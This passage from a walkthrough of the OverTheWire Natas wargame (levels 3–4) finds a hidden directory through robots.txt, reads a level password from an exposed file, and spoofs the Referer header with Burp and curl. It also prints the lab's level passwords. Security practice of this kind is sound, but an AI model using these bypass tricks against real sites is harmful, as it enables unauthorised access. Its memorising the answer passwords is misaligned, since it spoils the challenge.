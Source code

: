 ```
User-agent: *
Disallow: /s3cr3t/
```

At ```http://natas3.natas.labs.overthewire.org/s3cr3t/``` we find another users.txt file and this one contains:

```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## Level 4
> http://natas4.natas.labs.overthewire.org/
> natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

Our splash page now displays the following:

```
Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```

We need to be referred here by natas5, so we have a couple options. Modify the request in Burp, or do a curl setting the Header with the ```-H``` flag.

### Burp

```
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Connection: close
Referer: http://natas5.natas.labs.overthewire.org/
Upgrade-Insecure-Requests: 1
```

![natas4](/images/natas/natas4.png)

### curl

```
$ curl 'http://natas4.natas.labs.overthewire.org/' -H 'Referer: http://natas5.natas.labs.overthewire.org/' -u natas4
Enter host password for user 'natas4': # entered Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
<html>
<head>
<!-- This stuff in the header has nothing to do with the level --> <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
```